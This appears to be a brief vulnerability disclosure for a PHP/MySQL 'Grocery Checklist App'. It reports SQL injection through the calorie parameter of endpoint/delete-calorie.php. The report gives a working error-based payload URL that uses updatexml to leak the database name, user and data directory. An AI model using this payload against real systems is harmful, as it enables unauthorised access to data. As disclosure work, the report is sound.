


# Grocery Checklist App-SQL injection

# environment

[https://www.sourcecodester.com/php/17554/grocery-checklist-app-using-php-and-mysql-source-code.html#google\_vignette](https://www.sourcecodester.com/php/17554/grocery-checklist-app-using-php-and-mysql-source-code.html#google_vignette "https://www.sourcecodester.com/php/17554/grocery-checklist-app-using-php-and-mysql-source-code.html#google_vignette")

In the file endpoint/delete-calorie.php, the variable \$calorie is directly concatenated in the SQL statement.



Construct a payload.

```sql

http://127.0.0.1:10002/endpoint/delete-calorie.php?calorie=1%27%20or%20updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)%23
```


